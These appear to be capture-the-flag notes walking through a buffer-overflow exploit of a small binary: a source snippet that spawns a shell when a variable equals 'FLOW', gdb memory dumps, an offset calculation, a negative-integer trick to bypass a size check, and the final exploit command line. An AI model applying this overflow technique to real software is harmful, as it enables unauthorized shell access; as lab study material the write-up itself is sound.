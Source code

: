 ```
if (number == 0x574f4c46) 
    execl("/bin/sh", "sh", 0);
```
```
run "8" "AAAA"

   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
=> 0x08048478 <+84>:	cmpl   $0x574f4c46,0x3c(%esp)

the return of memcpy

0xbffff6b0:	..........	0x41414141	...[1]....	...[2]....
0xbffff6c0:	...[3]....	...[4]....	...[5]....	...[6]....
0xbffff6d0:	...[7]....	...[8]....	...[9]....	0x00000008

the var we compar with located at:

(gdb) x $esp+0x3c
0xbffff6dc:	0x00000008

p/d 0xbffff6dc - 0xbffff6b4 = 40

run "9" $(python -c 'print "A" * 40')

36 is the maximum number of bytes that can be copied into the buffer (9 * 4).

 -2^31 to 2^31 – 1
 ```

The "memcpy" function is vulnerable to buffer overflow


```
unhex 574f4c46 | rev ; echo
FLOW
```

00000000000000000000000000101100 = 44
change sign
10000000000000000000000000001011 = -44
-2147483604

10000000000000000000000000101100


Decimal from signed 2's complement
-2147483637

r -2147483637 $(python -c 'print "A"*40 + "FLOW"')

i r $ecx
ecx            0x2c	44



